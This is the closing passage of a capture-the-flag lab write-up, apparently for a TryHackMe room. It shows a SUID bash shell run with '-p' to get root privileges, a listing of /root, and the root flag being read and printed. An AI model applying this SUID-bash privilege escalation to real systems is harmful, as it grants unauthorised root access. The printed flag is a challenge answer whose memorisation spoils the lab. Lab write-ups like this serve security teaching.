lrwxrwxrwx  1 root root    9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jul 22  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 21  2020 .ssh
-rw-------  1 root root   38 Jul 22  2020 root.txt
.suid_bash-4.4# 
```
_Keep in mind that we have to run the file with the parameter `-p`. That allows the shell to start with SUID rights (as can be read [here](https://gtfobins.github.io/gtfobins/bash/#suid) or [here](https://stackoverflow.com/questions/63689353/suid-binary-privilege-escalation))._

We can now grab our root flag:
```
.suid_bash-4.4# cat /root/root.txt 
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4# 
```